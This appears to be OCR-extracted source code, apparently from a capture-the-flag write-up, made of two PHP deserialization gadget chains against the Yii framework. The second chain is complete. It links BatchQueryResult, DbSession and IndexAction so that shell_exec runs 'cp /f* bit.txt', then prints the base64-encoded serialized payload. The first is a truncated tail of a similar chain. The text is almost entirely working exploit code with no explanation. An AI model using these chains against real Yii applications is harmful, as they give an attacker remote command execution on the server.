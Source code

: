 ```
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>

```

```
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new \yii\rest\IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new \yii\web\DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new \yii\db\BatchQueryResult('shell_exec', 'cp /f* bit.txt');
    echo(base64_encode(serialize($exp)));
}
```
